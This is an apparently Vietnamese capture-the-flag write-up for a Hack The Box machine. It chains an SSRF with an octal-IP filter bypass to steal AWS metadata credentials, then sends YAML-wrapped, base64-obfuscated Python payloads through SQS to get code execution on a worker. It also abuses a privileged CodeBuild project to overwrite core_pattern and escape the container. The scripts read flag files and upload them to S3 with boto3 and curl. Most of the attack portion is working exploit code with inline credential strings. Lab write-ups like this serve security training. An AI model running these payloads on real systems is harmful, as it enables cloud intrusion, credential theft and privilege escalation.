









# Mô Tả 

- SSRF cho phép bạn đọc metadata nội bộ của AWS Instance Metadata Service (IMDS) 
- Lợi dụng SQS (Simple queues service) để đưa flag ra cho AWS 
- Từ đó đọc flag ở AWS thông SSRF vừa nêu ở trên 
- Lợi dụng codebuild có sẵn trong nội bộ để nâng quyền

# Phát hiện IMDS
- Sau 1 lúc test qua nimbus.htb nhận ra dịch vụ nội bộ IMDS

   
# SSRF `jobs/preview`
- Kết quả trả về `could not fetch url` -> app đã cố fetch url thật 

   
- Bypass fillter IMDS : 
    - Filter chặn 169.254.169.254, dùng octal:
    - 169.254.169.254 -> 0251.0376.0251.0376
- Tiến hành đọc role name 

   
- Lấy AWS creds 

   
# Các dịch vụ nội bộ tìm được nhờ SSRF
- Xác nhận 4 dịch vụ : SQS ; S3 ; IAM ; CODEBUILD

   
# Exploit Simple queue service 
- Với kiến trúc kiểu này:
    - web app submit job
    - queue giữ job
    - worker lấy job từ queue và xử lý
- Giờ ta sẽ đi tìm QuereUrl từ creds vừa tìm được

   
# Recon nội bộ 
Qua recon nội bộ, bucket S3 nội bộ lộ file source `source/worker.py`.

   
Từ đó xác nhận worker:
- poll receive_message() từ SQS
- parse message body bằng yaml.load(..., Loader=yaml.Loader)
- lấy field script
- chạy python3 -c script
# Using malicious job 
- queue đó là nơi worker đang poll
- worker lấy message từ queue
- parse YAML
- chạy field script
- nên nếu bạn gửi đúng format, worker sẽ chạy code của bạn
- Tức là QueueUrl là đích để bạn “ném payload” vào.
```py
import boto3
import yaml
import base64

creds = {
    "AccessKeyId": "ASIAQX4PG7L2K9M3N5R8",
    "SecretAccessKey": "bXJ7K8mP/q2Hf+vN9wT4LcRe5Y1Aoz3DhU6gKjQs",
    "Token": "IQoJb3JpZ2luX2VjEHQaCXVzLWVhc3QtMSJGMEQCIBhV9zPmK3wQjL4nT8vR2xY7AoFqUk5HsP6BeMcW1aDgAiAR4tNoXzKp8VnJqL7mC3xY9FhWdQ5GBPmRkX2vT8jY6yqsAQiK//////////8BEAEaDDAwMDAwMDAwMDAwMCIMNZ5tQ7vEX2pKlHfqKtoBQwK5HmBcN4gXjVrUe1Pk9YsZ7DqWfThN3bMRoLYyJsKn8GpVxAcQ5VeWk2HiqXbF6CnXmM4PdYpL3rJzKqGtNvBfHcWyXa8jPzTn5LRMkV1QbWdAyKpGfHzNvU8TmEcL2qPdRhJsKgGn3VyXmFbBcNJ7QrHe5VpDxKfM"
}

payload = r'''
import subprocess, boto3

out = "NOTFOUND"
for cmd in [
    ["bash", "-lc", "test -f /root/user.txt && cat /root/user.txt"],
    ["bash", "-lc", "find / -maxdepth 5 -name user.txt 2>/dev/null | head -1 | xargs cat 2>/dev/null"],
]:
    try:
        x = subprocess.check_output(cmd, timeout=10, text=True).strip()
        if x:
            out = x
            break
    except Exception:
        pass

s3 = boto3.client(
    "s3",
    endpoint_url="http://172.18.0.2:4566",
    region_name="us-east-1",
    aws_access_key_id="test",
    aws_secret_access_key="test",
)

s3.put_object(Bucket="nimbus-dev-artifacts", Key="loot/user.txt", Body=out.encode())
'''

body = yaml.dump({
    "name": "userflag",
    "script": f"import base64;exec(base64.b64decode('{base64.b64encode(payload.encode()).decode()}').decode())"
})

sqs = boto3.client(
    "sqs",
    region_name="us-east-1",
    endpoint_url="http://aws.nimbus.htb",
    aws_access_key_id=creds["AccessKeyId"],
    aws_secret_access_key=creds["SecretAccessKey"],
    aws_session_token=creds["Token"],
)

resp = sqs.send_message(
    QueueUrl="http://floci:4566/847219365028/nimbus-jobs",
    MessageBody=body
)

print(resp)

```
- Thực hiện xong tiến hành đọc flag thông qua SSRF đợi khoảng 5s

   

# CodeBuild for root 
- Dựng codebuild để nâng quyền và đọc flag 

   
```py
import boto3, yaml, base64

payload = r'''
import boto3, subprocess

buildspec = r"""version: 0.2
phases:
  build:
    commands:
      - UDIR=$(sed -n 's/.*upperdir=\([^,]*\).*/\1/p' /proc/self/mountinfo | head -1)
      - printf '#!/bin/sh\ncp /root/root.txt %s/root.txt\nchmod 777 %s/root.txt\n' "$UDIR" "$UDIR" > /exploit_root.sh
      - chmod +x /exploit_root.sh
      - echo "|${UDIR}/exploit_root.sh" > /proc/sys/kernel/core_pattern
      - ulimit -c unlimited
      - bash -c 'kill -11 $$' || true
      - sleep 4
      - curl -s -X PUT --data-binary @/root.txt http://172.18.0.2:4566/nimbus-dev-artifacts/loot/root.txt || true
"""

cb = boto3.client(
    "codebuild",
    region_name="us-east-1",
    endpoint_url="http://172.18.0.2:4566",
    aws_access_key_id="test",
    aws_secret_access_key="test",
)

try:
    cb.create_project(
        name="nimbus-manual-root",
        source={"type":"NO_SOURCE"},
        artifacts={"type":"NO_ARTIFACTS"},
        environment={
            "type":"LINUX_CONTAINER",
            "computeType":"BUILD_GENERAL1_SMALL",
            "image":"floci/floci:latest",
            "privilegedMode":True
        },
        serviceRole="arn:aws:iam::000000000000:role/codebuild-role",
    )
except Exception:
    pass

cb.start_build(
    projectName="nimbus-manual-root",
    environmentVariablesOverride=[
        {"name":"BASH_FUNC_id%%","value":"() { echo uid=1000; }","type":"PLAINTEXT"}
    ],
    buildspecOverride=buildspec
)
'''

body = yaml.dump({
    "name": "rootjob",
    "script": "import base64;exec(base64.b64decode('%s').decode())" % base64.b64encode(payload.encode()).decode()
})

sqs = boto3.client(
    "sqs",
    region_name="us-east-1",
    endpoint_url="http://aws.nimbus.htb",
    aws_access_key_id="ASIAQX4PG7L2K9M3N5R8",
    aws_secret_access_key="bXJ7K8mP/q2Hf+vN9wT4LcRe5Y1Aoz3DhU6gKjQs",
    aws_session_token="IQoJb3JpZ2luX2VjEHQaCXVzLWVhc3QtMSJGMEQCIBhV9zPmK3wQjL4nT8vR2xY7AoFqUk5HsP6BeMcW1aDgAiAR4tNoXzKp8VnJqL7mC3xY9FhWdQ5GBPmRkX2vT8jY6yqsAQiK//////////8BEAEaDDAwMDAwMDAwMDAwMCIMNZ5tQ7vEX2pKlHfqKtoBQwK5HmBcN4gXjVrUe1Pk9YsZ7DqWfThN3bMRoLYyJsKn8GpVxAcQ5VeWk2HiqXbF6CnXmM4PdYpL3rJzKqGtNvBfHcWyXa8jPzTn5LRMkV1QbWdAyKpGfHzNvU8TmEcL2qPdRhJsKgGn3VyXmFbBcNJ7QrHe5VpDxKfM",
)

print(sqs.send_message(
    QueueUrl="http://floci:4566/847219365028/nimbus-jobs",
    MessageBody=body
))
```